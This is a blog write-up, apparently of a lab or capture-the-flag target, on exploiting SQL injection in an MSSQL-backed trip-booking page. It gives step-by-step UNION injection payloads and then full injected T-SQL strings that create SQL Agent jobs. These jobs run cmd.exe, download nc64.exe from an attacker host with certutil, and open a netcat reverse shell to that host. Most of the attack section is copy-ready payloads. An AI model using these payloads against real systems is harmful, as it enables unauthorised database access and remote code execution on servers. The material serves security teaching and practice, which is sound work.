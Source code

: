 ```yaml
---
title: Manual SQLi On MSSQL [ Creating Jobs With Mssql ]
author: r0b0tG4nG
date: 2021-12-17 13:18:00 +0000
categories: [Blogging, Exploiting, Web Applications]
tags: [writeups, sqli, sql injection, burpsuite, shell, xp_cmdshell]
math: true
mermaid: true
---
```


![image](sqli general)

**> Information Gathering**<br>

SQL injection aka `SQLi` is a `web security vulnerability` that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.  More information on <a href="https://portswigger.net/web-security/sql-injection"> PortSwigger</a>
 
On port 80, we can see an amazing web application that's meant for booking trips. It's safe to assume that this is a travel agent website where one can book a destination to a desired location. The target website appears to have static webpages except the `book-trip.php` page. On this page we are presented with a login form which has 3 fields. `1. Destination`, `2. Adults` & `3. Children`.<br>
![image](book page)<br>

In `SQLi`, there are few characters that are capable of triggering an error in a database. These characters are `*, ', " & a few others`. In this engagement, we will use a single `'` quote to test all fields. It's always best to test one field at a time, so let's put single quote `'` in the `destination field` and capture the request in burpsuite for further testing.<br>
![image](burpsuite)<br>

Pushing the request to `burpsuite forwarder`, and sending the request again, we were able to trigger a `sql error`. From the response in burpsuite, the error displayed is `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''.` & `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near ''.`<br>
![image](error)<br>

The `destination field` is vulnerable to sql injection. To further exploit this vulnerability, we need to find the number of columns on the target. In `SQL`, the query `Order by` is used to sort the `result-set` in `ascending or descending order.`. To accomplish this, we will modify the data in our request `destination='+order+by+1+--&adults=1&children=1`. Note: we will keep increasing the values till we find the right columns on the target.<br>
![image](columns)<br>

The target database has `5 columns` which can be confirmed from the image above. The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, we need to find one or more columns in the original query results whose data type is, or is compatible with, string data. To test this, we will modify our data `destination='+UNION+SELECT+'a',2,3,4,5+--&adults=1&children=1`.  We will keep testing until the `alphabets` we submitted appears in the webapp response.<br>
![image](query)<br>

We found the relevant columns that are suitable for retrieving string data. We have all that we need now the next step is to start extracting information from the database. For starters, let's start with the version of SQL server running on the target. We can achieve this using `destination='+UNION+SELECT+1,'a',(SELECT+@@version),3,4+--&adults=1&children=1`<br>
![image](version)<br>

We can further enumerate the target database to retrieve information but it's unfortunate i won't dive deep into that. For more information on how to enumerate the database manually, you can check at <a href="https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/">perspectiverisk</a>. For now, let's focus on to enable `xp_cmdshell` on the target.<br>

After trying for some time to enable `xp_cmdshell` manually, i hit a dead-end. I tried all that i know and also followed the steps on both <a href="https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/">mssqltips</a> & <a href="https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e">medium.com</a> as well as few others, i failed. I decided to use the automatic method since i know the injection point, it’s easier to do it with `sqlmap`.<br>
![image](sqlmap)<br>

Using `sqlmap` didn't do any good. I tried bypassing this feature with some few `sqlmap arguments` but i still failed. Looking at the screenshot above, sqlmap presented us with this error<br> 
```shell
[02:00:34] [WARNING] xp_cmdshell creation failed, probably because sp_OACreate is disabled
[02:00:34] [CRITICAL] unable to proceed without xp_cmdshell
```
<br>

**> Creating MSSQL Jobs Through SQLi**<br>

The question is "how do we do this?? is it even possible??"??  The answer is *YES* it is possible have you heard about `T-SQL`??
`T-SQL (Transact-SQL)` is a set of programming extensions from `Sybase and Microsoft` that add several features to the Structured Query Language (SQL), including transaction control, exception and error handling, row processing and declared variables.

`T-SQL identifiers`, meanwhile, are used in all databases, servers, and database objects in SQL Server. These include the following `tables, constraints, stored procedures, views, columns and data types`. T-SQL identifiers must each have a `unique name, are assigned when an object is created and are used to identify an object`.<br>

With this information, i looked deeper into assigning `T-SQL identifiers` on MSSQL which led to <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-add-jobserver-transact-sql?view=sql-server-ver15">microsoft T-SQL</a> documentation.<br>

To successfully create a `job` in MSSQL using `T-SQL`, we need two important arguments. These arguments are `[ @job_id = ] job_id` or `[ @job_name = ] 'job_name'` & `[ @server_name = ] 'server`. <br>

> Note: Either job_id or job_name must be specified, but both cannot be specified.

<br>

We have all the information we need but another issue pops up. What's the issue?? how do i create this without any error?? i googled for samples of `T-SQL Jobs` and i came across this website <a href="https://www.mssqltips.com/sqlservertip/3052/simple-way-to-create-a-sql-server-job-using-tsql/">mssqltips</a> which clearly defines a fully functional `T-SQL job`. From the sample on this website, i crafted a `T-SQL query` to test if i can ping my ipaddress  .<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\windows\system32\cmd.exe /c ping -n 10 10.10.15.25', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

To identify ping requests, we have to start `tcpdump` on my attacker machine to filter `icmp` on ipaddress of our network interface. We can achieve this by typing `sudo tcpdump -i tun0 icmp`  in this case, i am listening on `tun0` interface. Send the `testping T-SQL` request to the target from burpsuite and i received a ping on my machine.<br>
![image](ping request)<br>


If we are able to execute a ping request, then we are two steps away from gaining remote code execution on the target. There are many ways to do this but i will stick to the basic 3:
> 1. Create an msfvenom payload, transfer to the target and execute it.<br>
> 2. Transfer netcat windows binary to the target and execute that for a rev shell<br>
> 3. Use a powershell one-liner to transfer and execute your nishang-tcp-shell script<br>

I will use the second method. First grab netcat windows binary from <a href="https://github.com/int0x33/nc.exe/">int0x33 GitHub repo</a>, then craft a new `T-SQL job` query to transfer the file from your attacking machine to the target machine.<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\\windows\\system32\\cmd.exe /c certutil -urlcache -f http://10.10.15.25/nc64.exe C:\\Windows\\temp\\nc64.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

Start python server on the attacking machine using `python -m SimpleHTTPServer port number` or the py3 method `python3 -m http.server port number` then put this `T-SQL` query in burpsuite and forward the request once again. It worked i got a hit from the target machine. `Nc64.exe` is transferred to `C:\\Windows\\temp\\` directory.<br>
![image](nc64.exe transfer)<br>

All we need to do now is to parse our `ipaddress` and `port number` to `nc64.exe` in order to gain a reverse connection to the target machine. As usual we have to modify our `T-SQL` query to perform this action. Once done, modify burpsuite data and send request again. <br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'C:\\Windows\\temp\\nc64.exe 10.10.15.25 445 -e cmd.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>


Whoop Whoop we got a reverse connection to the target machine. I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](revserse shell).
